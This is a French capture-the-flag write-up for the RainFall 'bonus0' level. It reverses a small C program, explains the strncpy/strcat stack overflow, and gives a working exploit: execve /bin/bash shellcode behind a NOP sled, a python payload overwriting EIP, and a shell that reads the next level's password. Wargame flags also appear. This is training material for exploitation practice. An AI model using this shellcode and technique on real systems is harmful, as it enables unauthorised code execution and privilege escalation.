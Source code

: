 # Bonus0

pass : `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`

## Sources :

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

void	p(char *str, char *sep) {  // 0x080484b4
	char buf[4096];  // ebp-1008 | esp+0x10 / size : 0x1008 - 0x8
	puts(sep);
	read(stdin, buf, 4096);
	char *ptr = strchr(buf, '\n');
	*ptr = '\0';
	strncpy(str, buf, 20);  // 0x14
}

void	pp(char *buf) {  // 0x0804851e
	char a[20];  // ebp-0x30 | esp+0x20
	char b[20];  // ebp-0x1c | esp+0x34

	p(a, " - ");
	p(b, " - ");
	strcpy(buf, a);
	buf[strlen(buf)] = ' ';
	strcat(buf, b);
}

int		main(int ac, char **av) {  // 0x080485a4
	char buf[42];  // esp+0x16 / size : 0x40-0x16

	pp(buf);
	puts(buf);
	return (0);
}
```

## Recherche :

Le points d'entrés sont par les 2 calls à `read(stdin, buf, 4096)`.
`strcpy` copie la source dans la destination et rajoute `\0`
`strncpy` fait de même, mais si la taille est atteinte, il ne rajoute pas de `\0` à la fin de sa chaine.

Donc si le premier `read` fait exactement plus de 20 caractères, les 20 premiers caractères vont être copiés dans `a` sans rajouté de `\0` et comme la mémoire est contingente, `a` et `b` se suivent. `strcat` va donc dans `buf` `ab b`

`a` se trouve à l'adresse `0xbffff1e8`
`b` se trouve à l'adresse `0xbffff1fc`

On écrit donc `20 + 20 + 1 + 20` caractères dans `buf` qui dépasse les `42` aloués, et on écrit donc dans la stack.
Et quand on quitte le main, et qu'on déstack, on se retrouve à écrire dans `EIP` et le programme segfault.

```shell
./bonus0
 -
abcdefghijabcdefghij
 -
01234567890123456789
abcdefghijabcdefghij01234567890123456789 01234567890123456789
[1]    3889 segmentation fault  ./bonus0
```

Avec gdb, c'est plus clair, et on voit que `EIP` est réécrit au 9<sup>ème</sup> caractère du second `read`.

On voit qu'on peut aussi lancer en une commande :
```sh
(gdb) r < <(python -c 'print "A"*4095 + "\n" + "B"*9 + "0123" + "C" * 200')
Starting program: /home/user/bonus0/bonus0 < <(python -c 'print "A"*4095 + "\n" + "B"*9 + "0123" + "C" * 200')
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBB0123CCCCCCC��� BBBBBBBBB0123CCCCCCC���

Program received signal SIGSEGV, Segmentation fault.
0x33323130 in ?? ()
```
On retrouve bien notre `0x33323130`, à savoir "0123"

On va mettre notre shell code dans une variable d'environnement en laissant un peu de place avant :
`export EXPLOIT=$(python -c 'print "\x90" * 4096 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')`

Avec gdb, on va chercher l'adresse de la variable d'environnement avec `p/s *environ`. Si on ne la trouve pas direct, on peut afficher les suivants `p/3s *environ`

```sh
bonus0@RainFall:~$ export EXPLOIT=$(python -c 'print "\x90" * 4096 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
bonus0@RainFall:~$ gdb ./bonus0
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/s *environ
0xbfffe8e0:      "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...

```

On va décaller cette adresse de 512 pour être sûr de tomber dessus. `p/x 0xbfffe8e0 + 512`
On décalle cette adresse car selon les argument, l'adresse de `EXPLOIT` peut changer. Ici on est sûr.

```sh
(gdb) p/x 0xbfffe8e0+512
$1 = 0xbfffeae0
```

```sh
(gdb) r < <(python -c 'print "A"*4095+"\n"+"\x90"*9+"\xe0\xea\xff\xbf"+"C"*20')
Starting program: /home/user/bonus0/bonus0 < <(python -c 'print "A"*4095+"\n"+"\x90"*9+"\xe0\xea\xff\xbf"+"C"*20')
 -
 -
AAAAAAAAAAAAAAAAAAAA�������������CCCCCCC��� �������������CCCCCCC���
process 7432 is executing new program: /bin/bash
[Inferior 1 (process 7432) exited normally]
```

Parfait, on a réussi ! On a bien eu `process 7432 is executing new program: /bin/bash`.

On peut maintenant passer à l'exploit.

## Exploit :

```sh
sh $ export EXPLOIT=$(python -c 'print "\x90" * 4096 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
sh $ gdb ./bonus0
(gdb) b main
(gdb) r
(gdb) p/s *environ
0xbfffe8e0:      "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
(gdb) p/x 0xbfffe8e0 + 512
$1 = 0xbfffeae0
(gdb) q
bonus0@RainFall:~$ (python -c 'print "A"*4095+"\n"+"\x90"*9+"\xe0\xea\xff\xbf"+"C"*20'; cat) | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAA�������������CCCCCCC��� �������������CCCCCCC���
whoami
bonus1
cd ../bonus1
cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Documentation :
* https://stackoverflow.com/questions/14760587/how-does-a-nop-sled-work#:~:text=The
